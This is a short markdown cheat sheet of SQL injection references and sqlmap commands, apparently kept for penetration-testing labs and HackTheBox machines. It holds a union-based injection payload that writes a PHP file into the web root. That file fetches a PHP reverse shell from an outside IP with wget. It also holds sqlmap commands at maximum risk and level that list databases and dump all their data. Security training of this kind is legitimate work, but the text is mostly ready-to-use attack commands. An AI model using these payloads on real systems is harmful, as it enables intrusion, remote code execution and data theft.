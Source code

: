 # SQL Injection & SQLMAP commands

## References


#### Payloads\
https://medium.com/@ismailtasdelen/sql-injection-payload-list-b97656cfd66b

#### Pentestmonkey covers different version of databases\
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

#### Upload PHP file via SQL injection (Reference HTB-Jarvis machine)
```
9999 union select 1,(select '<?php exec(\"wget -O /var/www/html/shell.php http://10.10.14.14/php-reverse-shell.php\");?>'),3,4,5,6,7 INTO OUTFILE '/var/www/html/download.php'
```

##  Mysql login page bypass using sql injection 

https://sechow.com/bricks/docs/login-1.html

## SQLmap command

1. To list the databases
sqlmap -u "http://192.168.124.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user"  --risk=3 --level=5 --dbs --threads=4 --batch

2. List all the datas from a database
sqlmap -u "http://192.168.124.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user"  -D jabcd0cs --risk=3 --level=5 --dump-all --batch

Database name - jabcd0cs

POST Request
sqlmap -r req.txt --level=5 --risk=3 --dbs
